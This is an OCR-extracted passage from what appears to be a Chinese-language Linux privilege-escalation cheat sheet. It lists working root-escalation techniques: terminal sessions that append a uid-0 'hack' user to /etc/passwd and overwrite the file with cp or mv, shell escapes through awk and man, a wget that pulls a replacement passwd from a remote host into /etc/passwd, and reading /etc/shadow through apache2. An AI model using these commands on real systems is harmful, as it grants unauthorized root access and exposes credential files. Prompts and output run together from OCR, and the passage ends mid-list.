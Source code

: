 ```


```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ cp passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```




```

**mv**

覆盖 /etc/shadow 或 /etc/passwd

```


```
[zabbix@localhost ~]$ cat /etc/passwd >passwd[zabbix@localhost ~]$ openssl passwd -1 -salt hack hack123$1$hack$WTn0dk2QjNeKfl.DHOUue0[zabbix@localhost ~]$ echo 'hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash' >> passwd[zabbix@localhost ~]$ mv passwd /etc/passwd[zabbix@localhost ~]$ su - hackPassword:[root@361way ~]# iduid=0(hack) gid=0(root) groups=0(root)[root@361way ~]# cat /etc/passwd|tail -1hack:$1$hack$WTn0dk2QjNeKfl.DHOUue0:0:0::/root/:/bin/bash
```




```

**nano**

nano  /etc/passwd

**awk**

awk ‘BEGIN {system(“/bin/sh”)}’

**man**

man passwd!/bin/bash

**wget**

wget http://192.168.56.1:8080/passwd -O /etc/passwd

**apache**

仅可查看文件，不能弹 shell：

apache2 -f /etc/shadow

**tcpdump**
